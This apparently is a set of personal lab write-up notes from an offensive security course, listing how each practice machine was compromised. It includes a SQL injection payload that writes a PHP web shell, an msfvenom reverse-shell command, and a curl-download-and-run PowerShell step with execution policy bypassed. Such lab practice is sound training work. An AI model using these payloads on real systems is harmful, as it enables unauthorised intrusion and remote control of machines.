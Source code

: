 ### 10.3.2.4

added the ip to /etc/hosts
scanned the website using wpscan
exploited sqli using sqlmap
uploaded reverse shell using wordpress plugin
got user as www-root
flag.txt in /var/www

### 10.3.2.5

email subscribe field in home page
boolean based sqli in post request with item mail-list
write php shell to file using sql injection
mail-list=' UNION SELECT null, null, null, null,"<?php echo system($_GET['cmd']);?>", null  INTO OUTFILE "/var/www/html/web1.php" -- //
http://forestsave.lab/web1.php?cmd=cat%20../flag.txt


### 10.3.2.7
SQLi in login 
xp_cmdshell working
uploaded powershell reverse shell and got reverse connection

### 11.3.1.3

Follow the walkthrough

### 12.4.1.1

Mouseserver exploit
49601

### 12.4.1.2

CVE : CVE-2021-41773

### 12.4.1.3

all port scan using nmap 
james smtp server running use exploit 50347
change port numbers according to nmap

### 13.2.3.2

same as walkthrough of fixing web exploits
took reverse shell using bash one liner reverse shell passing in cmd param

### 13.2.3.3
directory brute force with common.txt and big.txt no results

used exploit 46481 and used any jpeg image

### 13.2.3.4

found port 20000
enumerated port further with nmap -A and nmap -sV
easy chat server running 
tried with application locally
only changed payload with stageless reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.217 LPORT=1990 -f python -b "\x00\x20" -v shellcode
fire

### 14.3.3.2

used shellter as mentioned in walkthrough

### 14.3.3.4

created a bat file to download powershell script and then execute it
since the script is in 32 bit, faced problem in executing because powershell cmd spawns 64 bit so used following
curl http://192.168.1.11:9090/exec.ps1 -o exec.ps1
%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -exec bypass .\exec.ps1
![[exec.ps1]]